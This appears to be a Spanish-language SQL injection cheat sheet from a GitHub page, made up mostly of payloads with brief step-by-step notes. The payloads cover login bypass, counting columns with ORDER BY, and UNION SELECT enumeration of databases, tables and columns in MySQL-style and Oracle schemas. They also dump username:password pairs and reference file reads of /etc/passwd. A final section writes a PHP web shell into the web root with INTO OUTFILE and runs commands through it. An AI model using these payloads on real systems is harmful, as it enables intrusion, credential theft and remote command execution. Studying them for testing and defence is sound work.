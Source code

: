 ### Autenticación débil basada en SQL:
- Formulario de inicio de sesión (username - passwd) donde la inyección intenta **eludir la autenticación.**
```sql
SELECT * FROM users WHERE username='' AND passwd=''
1. username='admin' or 1=1-- - AND passwd='admin'
2. username='admin' or 1=1#
3. user='admin' -- || user='admin'-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>
#### Determina el número de columnas devueltas por la consulta
- Aprovechando el manejo de error en la respuesta para saber el total de columnas.
```sql
SELECT password,email FROM users WHERE username='pepe'' order by 2-- -
1. username order by 2-- -
2. username order by 3-- -//Devuelve error ya que al comienzo solo se seleccionan 2
```
<p align="center">
  <img src="https://i.postimg.cc/Z5MNWdqw/sql-ejemplo-error-ORDER-BY.png" alt="sql"/>
</p>
**Error ORDER BY**
<p align="center">
  <img src="https://i.postimg.cc/pL3FQXxF/ERROR-sql.png" alt="sql"/>
</p>

- Combinar del 1 hasta el total de columnas de la tabla con UNION SELECT
```sql
SELECT password,email FROM users WHERE username='pepe' union select 1,2-- -
SELECT password,email FROM users WHERE username='pepe' union select NULL,NULL-- -
//Este último va en la URL
```
+ Mostrar una posible inyección de código PHP
```sql
SELECT password,email FROM users WHERE id=1 UNION SELECT "<?php system('whoami'); ?>",user();-- -;
```
<p align="center">
  <img src="https://i.postimg.cc/Z5KPBmx5/sql-inyeccion-code-y-dbuser.png" alt="sql"/>
</p>
- Mas ejemplos con el uso de UNION SELECT '',''-- -
<p align="center">
  <img src="https://i.postimg.cc/6qxB0qpy/mas-ejemplos-con-UNION.png" alt="sql"/>
</p>
+ Utilizando una inyección de código hacia un directorio como **/etc/hosts** o **/etc/passwd**
<p align="center">
  <img src="https://i.postimg.cc/1X0nT1WV/load-file-sql.png" alt="sql"/>
</p>
---

+ **Recupera las bases de datos disponibles en el servidor - LISTAR DBS**
```sql
//Ejemplo por consola
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,group_concat(schema_name) FROM information_schema.schemata-- -
```
```SQL
//Esto va en la URL
' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -
```
- **Recupero "todas" las tablas creadas en cada base de datos. - LISTAR TABLAS**

```SQL
//Esto va en la URL
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
```
-  LISTAR COLUMNA
<p align="center">
  <img src="https://i.postimg.cc/7ZT8y18D/tabla-y-dbs.png" alt="sql"/>
</p>

```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_schema='public' AND table_name='users'-- -
```
information_schema.tables > Muestra todas las tablas

- Leer todos los nombres de usuario y contraseña de una tabla
```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,password FROM users-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>

---

## Tipos de inyecciones y "paso a paso".

##### 1.er Paso:
### ' ORDER BY [num_columns]-- -

Determina `' ORDER BY [num]-- -` el número de columnas en la tabla de la base de datos.
<p align="center">
  <img src="https://i.postimg.cc/N0GGQs8R/sqli.png" alt="sqli"/>
</p>
+ Ejemplo.

```url
https://example.com/filter?category=gift' ORDER BY 1-- -
https://example.com/filter?category=gift' ORDER BY 2-- -
https://example.com/filter?category=gift' ORDER BY 3-- -
https://example.com/filter?category=gift' ORDER BY 4-- -
```
<p align="center">
  <img src="https://i.postimg.cc/W1tQcpBz/image.png" alt="sql"/>
</p>
**"Al obtener un error se sabe que el número anterior es el número de columnas."**

##### 2.do Paso:

### ' UNION SELECT [NULL x cant_columns]-- -
<p align="center">
  <img src="https://i.postimg.cc/76KsrqhX/imagen.png" alt="sql"/>
</p>

- Ejemplos
1. Descubrir los nombres de las DB.
```SQL
SELECT * FROM tabla UNION SELECT schema_name,2,3,4 FROM information_schema.schemata;-- -;
```
2. Descubrir las tablas creadas dentro de cada DB.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables;-- -;
```
3. Descubrir las tablas dentro de una DB específica.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema='name_DB';-- -;
```
4. Ver las columnas de una tabla.
```SQL
SELECT * FROM tabla UNION SELECT column_name, 2, 3, 4 FROM information_schema.columns WHERE table_name='users' AND table_schema='name_DB';-- -;
```
5. Ver los datos dentro de una DB
```SQL
SELECT username,password FROM users UNION SELECT username,password FROM login.users-- -
```
+ Concatenar
```SQL
SELECT username,password FROM users UNION SELECT NULL,username||':'||password FROM users-- -
```
### Oracle
```SQL
' UNION SELECT NULL,NULL from dual-- -
```
```SQL
' UNION SELECT NULL,banner from v$version-- -
```
- Todas las tablas existentes
```SQL
' UNION SELECT NULL,table_name FROM all_tables-- -
```
+ Usuario que posee un esquema de DB.
	+  Específico que es el propietario de todos los objetos dentro de ese esquema, como tablas, vistas, índices, procedimientos almacenados, etc.
```SQL
' UNION SELECT NULL,owner FROM all_tables-- -
```
```SQL
' UNION SELECT NULL,table_name FROM all_tables WHERE owner=''-- -
# En caso de especificar uno en concreto.
```
+ Muestra todas las columnas de una tabla
```SQL
' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name=''-- -
```
+ Ver los datos de cada columna
```SQL
' UNION SELECT NULL,username||':'||password FROM nombre_tabla-- -
```
---
### Ejecución remota SQLi
1er paso:
```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shellsqli.php'-- -
```
2do paso:
```shell
http://SERVER_IP:PORT/shellsqli.php?0=id
```

| Comandos |
| :------: |
|    ls    |
|   cat    |
|   pwd    |
|    id    |
|  whoami  |
|  ls ..   |
| ls /file |
| ls /dir  |
